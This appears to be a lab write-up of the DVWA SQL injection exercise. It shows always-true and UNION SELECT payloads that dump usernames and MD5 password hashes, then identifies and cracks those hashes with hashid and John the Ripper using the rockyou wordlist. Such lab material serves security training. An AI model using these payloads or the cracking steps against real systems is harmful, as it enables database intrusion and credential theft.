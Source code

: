 # Low level 
```
id=1&Submit=Submit#
```
putting 1 as input we get back the ID(The input), first name and surname fields
so its like 
```
select first_name, last_name from users where user_id = '1';
```
Putting a Single ' will resulting an Error 
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' '' '' at line 1
This happened because the query was user_id ' ';

Testing Always True Scenario, like 1=1
On the query, it looks like
```
WHERE user_id = 1' OR' 1 '=' 1
```
We have the First name and Surname fields of all 5 users. 
to find out if there are more fields on the databse we need to perform a UNION attack combined with ORDER BY clause, this work because after the order by clause indicates the column index, thus if we try order our table with value of, for example "5" while the table only has "4" then we will get an Unknown column error
for example 
ORDER BY 3
```
?id=%27+ORDER+BY+3--+&Submit=Submit#
```
will return:
Unknown column '3' in 'order clause'
That means there are only 2 Fields on the Table.

And now we can try to guess those fields by using ' UNION SELECT username, password FROM users#
and we got " Unknown column 'username' in 'field list' " as the Result
which means username is not one of the field from the table, but password is one of the fields, lets try changing it to something similar "user" for example:
```
' UNION SELECT user, password FROM users#
```

Medium:
Inspect the web
Edit the Value from the choice to the condition always true
for example 
```
1 OR 1 = 1
```
Higher difficulty:
on the change ID insert
```
'Session ID: 'UNION SELECT user,password from users#' 
```

# Decrypt the Passwords
After getting the Datas we get the Data of the user's name and password, and all the passwords are encrypted
```
ID: ' UNION SELECT user, password FROM users# 
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
ID: ' UNION SELECT user, password FROM users# 
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03
ID: ' UNION SELECT user, password FROM users# 
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
ID: ' UNION SELECT user, password FROM users# 
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
ID: ' UNION SELECT user, password FROM users# 
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```
So now we gonna try to Decrypt all of them

Using tools called "Hashid" to identify what kind hash pattern used
```
hashid 5f4dcc3b5aa765d61d8327deb882cf99
```
```
Analyzing '5f4dcc3b5aa765d61d8327deb882cf99'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
```
after that choose one of the encryption pattern that we are going to try out, in here we gonna try MD 5

in here we gonna try to find how MD5 formatted
```
eCryptfs, eigrp, electrum, ENCDataVault-MD5, ENCDataVault-PBKDF2, EncFS,
Padlock, Palshop, Panama, PBKDF2-HMAC-MD4, PBKDF2-HMAC-MD5, PBKDF2-HMAC-SHA1,
Raw-Blake2, Raw-Keccak, Raw-Keccak-256, Raw-MD4, Raw-MD5, Raw-MD5u, Raw-SHA1,
solarwinds, SSH, sspr, Stribog-256, Stribog-512, STRIP, SunMD5, SybaseASE,
433 formatsHMAC-MD5, HMAC-SHA1, HMAC-SHA224, HMAC-SHA256, HMAC-SHA384, HMAC-SHA512,
```
choose one, and then try to crack the hashes using john
```
 $ john --format=Raw-MD5 hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

```
 Using default input encoding: UTF-8
 Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
 Warning: no OpenMP support for this hash type, consider --fork=16
 Press 'q' or Ctrl-C to abort, almost any other key for status
 password         (?)
 abc123           (?)
 letmein          (?)
 charley          (?)
 4g 0:00:00:00 DONE (2023-12-12 16:49) 133.3g/s 102400p/s 102400c/s 179200C/s skyblue..dangerous
 Warning: passwords printed above might not be all those cracked
```
